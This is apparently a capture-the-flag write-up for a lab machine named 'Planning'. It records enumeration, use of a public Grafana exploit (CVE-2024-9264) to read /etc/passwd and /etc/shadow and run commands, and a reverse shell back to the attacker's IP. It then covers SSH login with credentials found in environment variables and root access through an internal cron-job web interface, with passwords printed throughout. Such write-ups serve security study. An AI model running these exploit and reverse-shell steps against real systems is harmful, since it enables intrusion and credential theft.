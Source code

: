## INFO

`admin / 0D5oT70Fq13EvB5r`

## ENUM

```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

```
gobuster vhost -u http://planning.htb --append-domain -w /usr/share/wordlists/namelist.txt -r                  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/namelist.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: grafana.planning.htb Status: 200 [Size: 38241]
```

## Initial access:

Since the site itself didn’t give me any leads, I decided to check:
`grafana.planning.htb`

and I used the provided credentials.

On Grafana nothing interesting, so I looked for an exploit and found:
[https://github.com/nollium/CVE-2024-9264/tree/main](https://github.com/nollium/CVE-2024-9264/tree/main)

I tested it and set up a virtual environment:

```
┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ export PATH="$HOME/.pyenv/bin:$PATH"
eval "$(pyenv init -)"
eval "$(pyenv virtualenv-init -)"

┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ exec "$SHELL"

┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ pyenv virtualenv 3.10.13 ten-env

┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ pyenv activate ten-env
```

Finally I attempted the exploit:

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
...
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

I also tried to get `/etc/shadow`:

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/shadow http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/shadow
...
grafana:*:19857:0:99999:7:::
```

But this shows it’s not crackable because of the `*` at the start of the hash!

I tried to obtain a shell:

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -c ls http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls
...
LICENSE
bin
conf
public
```

The command works, so I tried various revshell payloads but everything failed so I found another PoC here:
[https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py)

which allows a reverse shell connection:

```python
python3 exploit.py --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.123 --reverse-port 4848 --url http://grafana.planning.htb
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 4848
```

---

## OWN USER:

While exploring I found this in the environment variables:

```
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
```

A user: `enzo`
And a password: `RioTecRANDEntANT!`

And this found by linpeas:

```
/usr/share/grafana/public/app/plugins/datasource/azuremonitor/credentials.ts
/usr/share/grafana/public/emails/reset_password.html
/usr/share/grafana/public/emails/reset_password.txt
/usr/share/grafana/public/app/partials/reset_password.html
```

I keep that in mind, but for now I tried SSH login with the found user and password — and it worked!

---

### OWN ROOT

I reran linpeas and found these files:

```
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data                                                   
Found /opt/crontabs/env.db: empty
```

Network ports:

```
127.0.0.1:3000 (Grafana)
127.0.0.1:8000 (web service)
127.0.0.1:3306 (MySQL)
127.0.0.1:33060
0.0.0.0:80
```

So another internal web server is open.

I downloaded the files for analysis and then did port forwarding:

**crontab.db**

```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

I found a password linked to root: `P4ssw0rdS0pRi0T3c` — however it is not the actual root password, maybe linked to the web service?

I forwarded:
`ssh enzo@10.10.11.68 -L 8000:127.0.0.1:8000`

And I connected to the interface with:
`root / P4ssw0rdS0pRi0T3c`

And I landed on an interface that lets me run jobs as root, perfect!

I made a bash script to exfiltrate the contents of root with a simple:
`ls /root > /tmp/.zeroz/result`

I saw `root.txt` in the results, so I exfiltrated it:
`cat /root/root.txt > /tmp/.zeroz/flag`